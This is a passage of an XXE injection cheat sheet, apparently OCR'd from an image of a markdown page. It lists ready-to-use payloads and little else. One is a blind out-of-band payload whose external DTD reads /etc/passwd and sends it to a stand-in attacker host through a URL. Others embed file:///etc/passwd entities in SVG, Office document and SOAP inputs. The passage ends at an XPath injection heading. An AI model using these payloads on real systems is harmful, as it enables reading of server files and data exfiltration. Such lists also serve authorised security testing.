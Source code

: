 #### Blind XXE (Out-of-Band)

```xml
<!-- External DTD -->
<!DOCTYPE data [
  <!ENTITY % dtd SYSTEM "http://attacker.com/evil.dtd">
  %dtd;
]>
<data>&send;</data>

<!-- evil.dtd content: -->
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; send SYSTEM 'http://attacker.com/?data=%file;'>">
%eval;
%send;
```

#### XXE in Different File Formats

**SVG Files**

```xml
<?xml version="1.0" standalone="yes"?>
<!DOCTYPE test [
  <!ENTITY xxe SYSTEM "file:///etc/passwd">
]>
<svg xmlns="http://www.w3.org/2000/svg">
  <text x="10" y="10">&xxe;</text>
</svg>
```

**DOCX/XLSX (Office Documents)**

```xml
<!-- Extract, modify, and recompress -->
<!-- In document.xml or similar -->
<!DOCTYPE data [
  <!ENTITY xxe SYSTEM "file:///etc/passwd">
]>
<document>&xxe;</document>
```

**SOAP**

```xml
<soap:Envelope xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/">
  <soap:Body>
    <!DOCTYPE data [
      <!ENTITY xxe SYSTEM "file:///etc/passwd">
    ]>
    <data>&xxe;</data>
  </soap:Body>
</soap:Envelope>
```

### XPath Injection
